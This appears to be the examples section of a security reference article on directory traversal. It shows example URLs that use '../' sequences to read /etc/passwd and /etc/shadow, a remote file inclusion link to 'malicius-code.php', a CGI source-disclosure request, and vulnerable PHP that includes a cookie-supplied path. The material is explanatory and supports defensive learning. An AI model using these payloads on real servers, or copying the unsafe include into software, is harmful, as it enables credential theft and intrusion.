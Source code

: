 ## Examples

### Example 1

The following examples show how the application deals with the resources in use.

```
http://some_site.com.br/get-files.jsp?file=report.pdf
http://some_site.com.br/get-page.php?home=aaa.html 
http://some_site.com.br/some-page.asp?page=index.html
```

In these examples it’s possible to insert a malicious string as the
variable parameter to access files located outside the web publish
directory.

```
http://some_site.com.br/get-files?file=../../../../some dir/some file
http://some_site.com.br/../../../../some dir/some file
```

The following URLs show examples of \*NIX password file exploitation.

```
http://some_site.com.br/../../../../etc/shadow
http://some_site.com.br/get-files?file=/etc/passwd
```

Note: In a Windows system an attacker can navigate only in a partition
that locates web root while in the Linux they can navigate in the whole
disk.

### Example 2

It's also possible to include files and scripts located on external
website.

`http://some_site.com.br/some-page?page=http://other-site.com.br/other-page.htm/malicius-code.php`

### Example 3

These examples illustrate a case when an attacker made the server show
the CGI source code.

`http://vulnerable-page.org/cgi-bin/main.cgi?file=main.cgi`

### Example 4

This example was extracted from: [Wikipedia - Directory Traversal](https://en.wikipedia.org/wiki/Directory_traversal_attack#Example)

A typical example of vulnerable application code is:

```
<?php
$template = 'blue.php';
if ( is_set( $_COOKIE['TEMPLATE'] ) )
   $template = $_COOKIE['TEMPLATE'];
include ( "/home/users/phpguru/templates/" . $template );
?>
```
